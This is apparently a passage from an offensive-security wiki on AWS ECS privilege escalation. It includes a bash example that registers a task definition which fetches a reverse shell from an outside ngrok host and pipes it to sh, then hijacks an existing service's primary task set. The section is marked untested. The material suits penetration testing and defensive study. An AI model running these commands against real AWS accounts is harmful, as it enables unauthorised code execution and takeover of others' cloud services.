 Check in the **ssm privesc page** how you can abuse this permission to **privesc to ECS**:

{{#ref}}
aws-ssm-privesc.md
{{#endref}}

### `iam:PassRole`, `ec2:RunInstances`

Check in the **ec2 privesc page** how you can abuse these permissions to **privesc to ECS**:

{{#ref}}
aws-ec2-privesc.md
{{#endref}}

### `?ecs:RegisterContainerInstance`

TODO: Is it possible to register an instance from a different AWS account so tasks are run under machines controlled by the attacker??

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

> [!NOTE]
> TODO: Test this

An attacker with the permissions `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, and `ecs:DescribeTaskSets` can **create a malicious task set for an existing ECS service and update the primary task set**. This allows the attacker to **execute arbitrary code within the service**.

```bash
bashCopy code# Register a task definition with a reverse shell
echo '{
  "family": "malicious-task",
  "containerDefinitions": [
    {
      "name": "malicious-container",
      "image": "alpine",
      "command": [
        "sh",
        "-c",
        "apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
      ]
    }
  ]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
aws ecs update-service-primary-task-set --cluster existing-cluster --service existing-service --primary-task-set arn:aws:ecs:region:123456789012:task-set/existing-cluster/existing-service/malicious-task-set-id
```
